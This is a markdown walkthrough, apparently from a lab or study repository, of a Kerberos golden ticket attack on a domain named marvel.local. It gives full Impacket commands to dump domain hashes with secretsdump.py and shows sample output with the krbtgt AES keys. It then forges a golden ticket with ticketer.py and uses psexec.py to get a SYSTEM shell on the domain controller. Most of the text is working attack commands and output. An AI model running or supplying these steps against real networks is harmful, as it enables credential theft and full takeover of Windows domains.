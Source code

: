 # Kerberos Golden Ticket Attack

## Dumping hashes from DC using Impacket secretsdump.py

If you have access to an account that is able to dump domain credentials, either due to being a domain admin or having excessive privileges, the following command can be used:

`sudo python secretsdump.py marvel.local/administrator:Password123\!@hydra-dc.marvel.local`

Where `marvel.local` is the domain `administrator:Password123\!` is the username and password of the user that has the privileges to dump the domain hashes and `hydra-dc.marvel.local` is the fully qualified domain name (FQDN) of the domain.

The output from the dump should look something like:

```
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x56ab23a1c4f8bdc81875a194b1cecce5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3174e6ed5e2e8747ad5cc3fcfa73aab5:::

[...SNIP...]

[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:fe846f3874239696cdb0bb491b9dfc33eeebc727c67dbf2dee58e401e9ee754e
Administrator:aes128-cts-hmac-sha1-96:ffbcc24e1b5b9e6f20c23d2d6adec791
Administrator:des-cbc-md5:efe0bf683746c4df
krbtgt:aes256-cts-hmac-sha1-96:47edef840303d581bca8b8c09f587363ca755a926984b49e4297cd6bfc74bce5
krbtgt:aes128-cts-hmac-sha1-96:c6fbe3420417a94ac4f9418e4b966f3d
krbtgt:des-cbc-md5:fe8f45195770e952
MARVEL.LOCAL\fcastle:aes256-cts-hmac-sha1-96:c95bf1bf87ec3dc738a676e4372d263480fea0ececc44fbab8e3343a5fab8cfe

```

The Kerberos NTLM hash or AES Keys can be used to create a golden ticket.  In the example below using `ticketer.py` the AES 256 key `47edef840303d581bca8b8c09f587363ca755a926984b49e4297cd6bfc74bce5` was used.

## Create Golden Ticket using Impacket ticketer.py

`python ticketer.py -aesKey 47edef840303d581bca8b8c09f587363ca755a926984b49e4297cd6bfc74bce5 -domain-sid <Domain_SID_HERE> -domain <domain.name> <anyusernamehere>`

This will generate a <username>.ccache file in the current directory.  Move the <username>.ccache file to /tmp/<username.ccache>
  
Set the following variable within the bash terminal:

`export KRB5CCNAME='<username>.ccache'`

## Editing /etc/hosts File

Now you will need to add your domain details and IP address to your /etc/hosts file.  In my case my domain name is marvel.local and the Domain Controller is named hydra-dc.marvel.local and is at 10.0.2.15:

```
10.0.2.15   hydra-dc.marvel.local
10.0.2.15   marvel.local

```

## Impacket psexec.py

Once everything above has been set you will now be able to use Impackets psexec.py script to get a shell on the domain controller as NT AUTHORITY\SYSTEM:

`sudo python psexec.py -k -no-pass marvel.local/badman@hydra-dc.marvel.local`

Note that in the command above you MUST specify the fully qualified domain name for the domain controller `hydra-dc.marvel.local`.  If you only specify the IP address it will not work and show the error:

```
KerberosError: Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
Also the ticket must be generated and used within the 20 minute time-frame as described in the article here "https://passing-the-hash.blogspot.com/2014/09/pac-validation-20-minute-rule-and.html"
